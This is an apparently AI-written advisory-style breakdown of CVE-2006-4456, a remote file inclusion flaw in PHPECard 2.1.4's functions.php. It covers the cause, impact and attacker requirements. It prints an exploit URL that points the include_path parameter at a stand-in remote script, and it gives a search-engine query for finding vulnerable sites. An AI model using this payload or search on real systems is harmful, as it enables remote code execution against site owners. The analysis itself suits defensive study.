 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4456

**Vulnerability Description:**
The vulnerability is a Remote File Inclusion (RFI) in PHPECard version 2.1.4. The `functions.php` script is vulnerable.

**Root Cause of Vulnerability:**
The `include_path` parameter in `functions.php` is not properly sanitized and allows an attacker to include a remote file, leading to arbitrary code execution.

**Weaknesses/Vulnerabilities Present:**
- Remote File Inclusion vulnerability in the `functions.php` file.
- Lack of input sanitization on the `include_path` parameter.

**Impact of Exploitation:**
- **Remote Code Execution:** An attacker can include a malicious file from a remote server, leading to arbitrary code execution on the vulnerable server.
- **Complete System Compromise:** Depending on the permissions of the webserver and the included malicious script, a successful exploit could lead to complete system compromise.

**Attack Vectors:**
- The vulnerability is triggered by making a crafted HTTP request to `functions.php` with a malicious URL provided to the `include_path` parameter.
- The vulnerable URL is of the form `http://sitename.com/[Script Path]/functions.php?include_path=http://evil_script?`

**Required Attacker Capabilities/Position:**
- The attacker needs to be able to make HTTP requests to the vulnerable server.
- The attacker needs access to a server that can host a malicious script.
- The attacker needs to know or be able to guess the path to the `functions.php` file

**Additional details:**
The exploit information specifies the following:
- The exploit was discovered by "LeAk" and reported on 2006-08-29
- The affected software is "PHPECard" version 2.1.4, vendor site: http://www.quick-xs.net/phpecard/
- A Google search query "powered by: phpecard" can help identify vulnerable instances.

This information is more detailed than the placeholder description in the CVE.